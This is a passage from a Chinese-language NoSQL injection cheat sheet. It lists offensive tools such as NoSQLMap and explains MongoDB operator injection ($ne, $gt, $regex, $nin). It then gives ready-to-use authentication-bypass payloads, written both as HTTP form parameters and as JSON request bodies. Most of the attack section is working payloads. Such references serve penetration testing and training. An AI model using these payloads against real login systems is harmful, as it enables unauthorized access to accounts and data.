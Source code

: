 ## 工具

* [codingo/NoSQLmap](https://github.com/codingo/NoSQLMap) - 自动化的 NoSQL 数据库枚举和 Web 应用利用工具
* [digininja/nosqlilab](https://github.com/digininja/nosqlilab) - 用于练习 NoSQL 注入的实验环境
* [matrix/Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner) - 用于发现 NoSQL 注入漏洞的 Burp Suite 扩展

## 方法学

NoSQL 注入发生在攻击者通过向 NoSQL 数据库查询中注入恶意输入来操纵查询时。与 SQL 注入不同，NoSQL 注入通常利用基于 JSON 的查询和操作符，如 MongoDB 中的 `$ne`、`$gt`、`$regex` 或 `$where`。

### 操作符注入

| 操作符 | 描述         |
| ------ | ------------ |
| $ne    | 不等于       |
| $regex | 正则表达式   |
| $gt    | 大于         |
| $lt    | 小于         |
| $nin   | 不在列表中   |


示例：一个 Web 应用有一个产品搜索功能

```js
db.products.find({ "price": userInput })
```

攻击者可以注入 NoSQL 查询：`{ "$gt": 0 }`

```js
db.products.find({ "price": { "$gt": 0 } })
```

数据库不会返回特定产品，而是返回所有价格大于零的产品，导致数据泄露。

### 认证绕过

使用不等于 (`$ne`) 或大于 (`$gt`) 进行基本的认证绕过

* HTTP 数据

  ```
  username[$ne]=toto&password[$ne]=toto
  login[$regex]=a.*&pass[$ne]=lol
  login[$gt]=admin&login[$lt]=test&pass[$ne]=1
  login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
  ```

* JSON 数据

  ```json
  {"username": {"$ne": null}, "password": {"$ne": null}}
  {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
  {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
  {"username": {"$gt":""}, "password": {"$gt":""}}
  ```
